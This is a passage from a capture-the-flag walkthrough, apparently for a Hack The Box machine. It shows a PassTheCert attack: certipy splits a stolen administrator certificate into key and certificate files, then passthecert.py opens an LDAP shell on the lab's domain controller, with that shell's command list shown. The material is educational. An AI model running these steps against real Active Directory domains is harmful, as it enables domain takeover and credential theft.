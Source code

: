 #### LDAP Shell [Path 1]

To perform a PassTheCert attack, I’ll need the key and certificate in separate files, which `certipy` can handle:

```

oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'
oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'

```

[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and Python tools to do a PassTheCert attack. It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC. I’ll clone it, and then run `passthecert.py` with the following options:
- `-action ldap-shell` - provide a limited set of commands
- `-crt administrator.crt -key administrator.key` - the certificate and key files
- `-domain authority.htb -dc-ip 10.10.11.222` - target info

It connects:

```

oxdf@hacky$ python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

Type help for list of commands

#

```

I’ll play around with the various commands:

```

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
```